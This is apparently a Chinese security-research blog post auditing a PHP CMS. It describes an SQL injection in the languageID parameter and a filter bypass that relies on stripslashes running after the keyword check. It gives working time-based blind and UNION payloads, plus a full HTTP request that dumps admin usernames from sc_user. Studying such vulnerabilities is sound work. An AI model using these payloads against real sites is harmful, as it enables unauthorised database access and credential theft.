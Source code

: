 某cms漏洞挖掘分析，该系统代码简单，因此注入漏洞发现过程还是挺顺利的，就在index.php的文件中，结果绕过waf稍微有些曲折，特此记录一下学习过程。

发现之旅
----

站点搭建过程没啥坑点，因此略过。使用的环境为PHP5.6+Apache2.4+MySQL5.7  
使用phpstorm打来站点目录，从入口开始，看index.php文件  
![image.png](https://shs3.b.qianxin.com/butian_public/f82993139e33b46f90c0f32103b5b31e6f702ea096a0d.jpg)  
Templete目录下为模板文件，暂不看；优先看web\_inc.php，还没翻几行，就发现存在疑似注入点=.=!  
![image.png](https://shs3.b.qianxin.com/butian_public/f658551e0ff44ece4d92a1b4c2eb43ef798b528e3f92e.jpg)  
![image.png](https://shs3.b.qianxin.com/butian_public/f883213252cc73c8ab29a45ae2fbffa8069cb570a03d4.jpg)  
存在以上两处对$Language直接进行调用的点。当然，目前仅是疑似，还不知道变量是否可可控以及WAF拦截情况。  
向上找到$Language的来源，发现原来是直接通过POST传进来的，感觉过程过于顺利了。但仔细看了看，发现对传递进来的值调用test\_input()和verify\_str()进行处理，存在一定的过滤。  
![image.png](https://shs3.b.qianxin.com/butian_public/f7879400c3a00bfacf292019da6cd0be8a9b95b1fe519.jpg)  
继续跟进这两个函数到contorl.php文件。看看具体的实现代码，将他们翻译成自然语言就是：  
verify\_str()会将传进来的值进行正则匹配，当存在红框中的使用`|`分割的字符时，无论大小写（忽略大小写），都会退出代码执行，并打印Sorry  
![image.png](https://shs3.b.qianxin.com/butian_public/f862227329b7ff7fa3a89a5ed746309abc182cf83d94b.jpg)  
test\_input()会对传进来的值使用一键三连，分别是去除两边空格、去除反斜杠、转移html特殊字符。这里我揉了揉眼睛，确实是`stripslashes`去除反斜杠而不是`addslashes`添加反斜杠。不知道这里为啥这样操作，算了，开发的意思，自有他的道理，反正肯定不是写错了。  
![image.png](https://shs3.b.qianxin.com/butian_public/f93607241bfdf87bc97b5ac2f0711269cf097360ebc23.jpg)  
![image.png](https://shs3.b.qianxin.com/butian_public/f188470e00b30d41a4c93dbe59d3fb23c7565c7304afd.jpg)  
（这里注意一下verify\_str和test\_input的调用顺序，后面要考）

开始爬坑
----

整理一下思路，准备开始爬坑，尝试绕过这两个函数。  
限制还是比较多，无法使用常用的字符`and``union``select``=``<``>``*`以及单引号、空格等，但感觉是有机会的。  
先分别构造0和1，发现没有任何回显与区别，这样就没办法进行布尔盲注。  
![image.png](https://shs3.b.qianxin.com/butian_public/f27582871b972aabceace8359f2c03adb4e58c5e5f13d.jpg)  
![image.png](https://shs3.b.qianxin.com/butian_public/f1234988e743ef5581e344b7634d8c4abfad8867a067a.jpg)  
之后尝试构造sleep()语句，进行时间盲注测试。结果并没有触发延迟，并且服务器返回了500错误。  
![image.png](https://shs3.b.qianxin.com/butian_public/f3193841ef438cba523cbebcd973ef657cad5fcc9409c.jpg)  
![image.png](https://shs3.b.qianxin.com/butian_public/f7480736df39dc5bcca5b26fe29d0b53b0b514d8e0d42.jpg)  
感觉比较奇怪，因此测试找了一下原因发现：  
当sleep一个较小的值，因被带入后端进行多次sql查询，实际睡眠了4s时间；也就是说之前睡眠1s，实际睡眠了40s以上，导致超时返回500状态码。  
![image.png](https://shs3.b.qianxin.com/butian_public/f304083658423a60c9ccb14c2bfa40338ecfa82954175.jpg)  
暂未对**apache请求超40s返回500**进行调整，并利用它进行盲注测试，方便通过状态码筛选数据。  
先构造判断数据库长度的语句，因为`=`被过滤，payload中使用`like`代替。

```php
languageID=(0)or(if(length(database())like(1),sleep(2),0))
```

![image.png](https://shs3.b.qianxin.com/butian_public/f352368a4ff12cacf59439b6b75bd53cca2ab232ed67e.jpg)  
![image.png](https://shs3.b.qianxin.com/butian_public/f139778e3db9db08dc15856f76163eda645a1ab89de5c.jpg)  
然后利用substr()对数据库名称进行分割，分别跑出对应的字符。因为过滤了单引号，因此这里在判断字符时使用了十六进制编码。（也可以使用ascii）

```php
languageID=(0)or(if(substr(database(),1,1)like(0x73),sleep(2),0))
```

![image.png](https://shs3.b.qianxin.com/butian_public/f4000978f2be6c337033983ceac91ec490df0826ce5aa.jpg)  
成功获得数据库名称

```php
languageID=(0)or(if(database()like(0x73656d636d73),sleep(2),0))
```

![image.png](https://shs3.b.qianxin.com/butian_public/f202754f53221143192aa70df6f1122cdfb6d59a46e9d.jpg)  
查找发现包含web\_inc.php的文件还是比较多的，因此理论上他们都会存在相同的注入问题。  
![image.png](https://shs3.b.qianxin.com/butian_public/f4622734004601a23c63776c79e55c20a25782e02b6a9.jpg)  
以/Templete/default/Include/search.php为例，进行时间盲注测试。  
![image.png](https://shs3.b.qianxin.com/butian_public/f33273262c2f3793ab3700deae7e381ccdcc63b97f588.jpg)  
成功触发与web\_inc.php情况相同的延迟。  
![image.png](https://shs3.b.qianxin.com/butian_public/f21902431be2cd913ff874629971ba08066d3462d1b13.jpg)  
其他路径下的注入点就不再详细测试，感兴趣的小伙伴可以自行去尝试。

绕过verify\_str()
---------------

上面的过程，虽然能证明存在sql注入，并能获得数据库库名等信息满足危害证明需要，但因为存在verify\_str()函数过滤了`union`、`select`、`=`等字符，是无法进一步获得表中信息。难道只能到此为止吗？  
此时，就要提到之前需要注意的verify\_str()和test\_input()的调用顺序。payload是先经过verify\_str()过滤敏感字符，之后再通过test\_input()去除两边空格、**反斜杠**、转译html特殊字符的。  
因此可以利用test\_input()可以去除反斜杠的功能，绕过verify\_str()  
编写测试代码证明这个想法：

```php
<?php
function inject_check_sql($sql_str) {

     return preg_match('/select|and|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str); 
}

function verify_str($str) { 
       if(inject_check_sql($str)) {
           return 'Sorry,You do this is wrong! (.-.)';
        } 
    return $str;
}

function test_input($data) { 
      $data = trim($data);
      $data = stripslashes($data);
      $data = htmlspecialchars($data,ENT_QUOTES);
      return $data;
   }

$test1 = 'select sleep(1)';
$test2 = 'sel\ect sleep(1)';
echo test_input(verify_str($test1));
echo '------------------';
echo test_input(verify_str($test2));
?>
```

![image.png](https://shs3.b.qianxin.com/butian_public/f3171823d52b162e84d877d029bd84debcd9e0ef489ad.jpg)  
还是以/Templete/default/Include/search.php为例，测试select是否可以成功绕过  
先使用正常payload进行测试，verify\_str()被拦截：

```php
languageID=0%20or%20if((select%20user_admin%20from%20sc_user)like%200x41646d696e,sleep(0.01),sleep(0))
```

![image.png](https://shs3.b.qianxin.com/butian_public/f2826139037e4078a742ae4d32cb1f697456d56728530.jpg)  
为select添加反斜杠绕过verify\_str()拦截：  
当从用户表中获取的用户名等于十六进制的Admin，等式成立，触发延时。

```php
languageID=0%20or%20if((sel\ect%20user_admin%20from%20sc_user)like%200x41646d696e,sleep(0.01),sleep(0))
```

![image.png](https://shs3.b.qianxin.com/butian_public/f173931071ba82fa4a78af1bae069cfa6cc1982a82cc6.jpg)  
当从用户表中获取的用户名不等于十六进制的Admin，等式不成立，未触发延时。  
![image.png](https://shs3.b.qianxin.com/butian_public/f9587320a741530565a37607aad396e2af78402dab473.jpg)

尝试回显获得数据
--------

可是时间盲注使用起来还是太麻烦了，正好也可以通过上述操作绕过union，那么就有通过联合查询的方式回显数据的可能  
查看/Templete/default/Include/search.php源码寻找回显位置，找到`tag_home`字段位置存在回显  
![image.png](https://shs3.b.qianxin.com/butian_public/f272212d54246194d7d5732c18fd97f6175b74e4bfb5a.jpg)  
通过web\_inc.php中的sql语句确定查询的数据库，在sc\_lable表中找对应的字段，为第2列  
![image.png](https://shs3.b.qianxin.com/butian_public/f62328065108844b9793b2a49067d517f82cdbbf4a263.jpg)  
![image.png](https://shs3.b.qianxin.com/butian_public/f93962412f7dc62f3c52a6fb43b386cbc90aa01d434f9.jpg)  
构造payload进行联合查询，字段数为40个，回显位在第2个，成功获得回显数据。

```php
POST /Templete/default/Include/search.php HTTP/1.1
Host: mylocal:8000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8
Cookie: XDEBUG_SESSION11=10744
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 168

languageID=-1%20un\ion%20se\lect%201,user_admin,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40%20from%20sc_user
```

![image.png](https://shs3.b.qianxin.com/butian_public/f79057471a6d53889defb0225fdc528b90aa577509d4d.jpg)